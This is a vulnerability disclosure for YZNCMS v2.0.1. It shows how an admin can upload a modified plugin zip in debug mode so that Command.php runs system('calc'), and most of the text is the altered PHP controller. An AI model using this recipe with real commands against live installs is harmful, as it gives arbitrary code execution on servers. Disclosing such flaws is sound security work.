


## File Upload Vulnerability

In the latest version of YZNCMS v2.0.1, there is a command execution vulnerability in the plugin installation feature when the debug mode is enabled. Attackers can modify the plugin zip file locally and upload it, triggering command execution through the plugin functionality.

Log in to the backend and choose any plugin to install using the plugin installation feature.


Upon debugging, it was found that the installed plugin zip file is stored in `runtime\admin\addons\command.zip`.

Download this zip file and modify the controller file `app\admin\controller\Command.php`. Change the code in the `command` method to execute the command `calc`:
```php
    if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
```
The complete modified code is as follows:
```php
    public function command($action = '')
    {
        $commandtype = $this->request->request("commandtype");
        $params      = $this->request->request();
        $allowfields = [
            'crud' => 'table,controller,model,fields,force,local,delete,menu',
            'menu' => 'controller,force,delete',
            'min'  => 'module,resource,optimize',
        ];
        $argv        = [];
        $allowfields = isset($allowfields[$commandtype]) ? explode(',', $allowfields[$commandtype]) : [];
        $allowfields = array_filter(array_intersect_key($params, array_flip($allowfields)));

        if (isset($params['local']) && !$params['local']) {
            $allowfields['local'] = $params['local'];
        } else {
            unset($allowfields['local']);
        }
        foreach ($allowfields as $key => $param) {
            $argv[] = "--{$key}=" . (is_array($param) ? implode(',', $param) : $param);
        }
        if ($commandtype == 'crud') {
            $extend    = 'setcheckboxsuffix,enumradiosuffix,imagefield,filefield,intdatesuffix,switchsuffix,citysuffix,selectpagesuffix,selectpagessuffix,ignorefields,sortfield,editorsuffix,headingfilterfield,tagsuffix,jsonsuffix,fixedcolumns';
            $extendArr = explode(',', $extend);
            foreach ($params as $index => $item) {
                if (in_array($index, $extendArr)) {
                    foreach (explode(',', $item) as $key => $value) {
                        if ($value) {
                            $argv[] = "--{$index}={$value}";
                        }
                    }
                }
            }
            $isrelation = (int) $this->request->request('isrelation');
            if ($isrelation && isset($params['relation'])) {
                foreach ($params['relation'] as $index => $relation) {
                    foreach ($relation as $key => $value) {
                        $value            = (is_array($value) ? implode(',', $value) : $value);
                        $value && $argv[] = "--{$key}=" . $value;
                    }
                }
            }
        } elseif ($commandtype == 'menu') {
            foreach (explode(',', $params['controllerfile']) as $index => $param) {
                if ($param) {
                    $argv[] = "--controller=" . substr($param, 0, -4);
                }
            }
        }
        if ($action == 'execute') {
            system('calc');
            $result = $this->doexecute($commandtype, $argv);
            $this->success("", null, ['result' => $result]);
        } else {
            $this->success("", null, ['command' => "php think {$commandtype} " . implode(' ', $argv)]);
        }
    }
```
In debug mode, the attacker can upload the locally modified plugin zip file and trigger command execution.

Using this plugin, click "Execute Now" and successfully open the calculator.
